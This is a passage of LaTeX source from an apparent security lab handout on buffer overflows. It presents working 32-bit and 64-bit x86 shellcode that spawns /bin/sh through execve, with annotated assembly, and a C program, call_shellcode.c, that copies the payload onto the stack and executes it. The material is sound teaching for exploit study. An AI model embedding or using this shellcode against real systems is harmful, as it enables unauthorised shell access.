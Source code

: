 We provide a sample 64-bit shellcode in the following.
It is quite similar to the 32-bit shellcode, except that 
the names of the registers are different and the 
registers used by the \texttt{execve()} system call
are also different. Some explanation of the code is given in the 
comment section, and we will not provide detailed 
explanation on the shellcode. 


\begin{lstlisting}[language={[x86masm]Assembler}]
xor  rdx, rdx        ; rdx = 0: execve()'s 3rd argument
push rdx
mov  rax, '/bin//sh' ; the command we want to run
push rax             ; 
mov  rdi, rsp        ; rdi --> "/bin//sh": execve()'s 1st argument 
push rdx             ; argv[1] = 0
push rdi             ; argv[0] --> "/bin//sh"
mov  rsi, rsp        ; rsi --> argv[]: execve()'s 2nd argument
xor  rax, rax
mov  al,  0x3b       ; execve()'s system call number
syscall              
\end{lstlisting}



\subsection{Task: Invoking the Shellcode} 

We have generated the binary code from the assembly code above, and
put the code in a C program called \texttt{call\_shellcode.c} inside
the \texttt{shellcode} folder. If you would like to learn how to 
generate the binary code yourself, you should work on the Shellcode lab. 
In this task, we will test the shellcode. 

\begin{lstlisting}[language=C, caption=\texttt{call\_shellcode.c}, label=call_shellcode]
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode); // Copy the shellcode to the stack
   int (*func)() = (int(*)())code;
   func();                 // Invoke the shellcode from the stack
   return 1;
} 
\end{lstlisting}
 
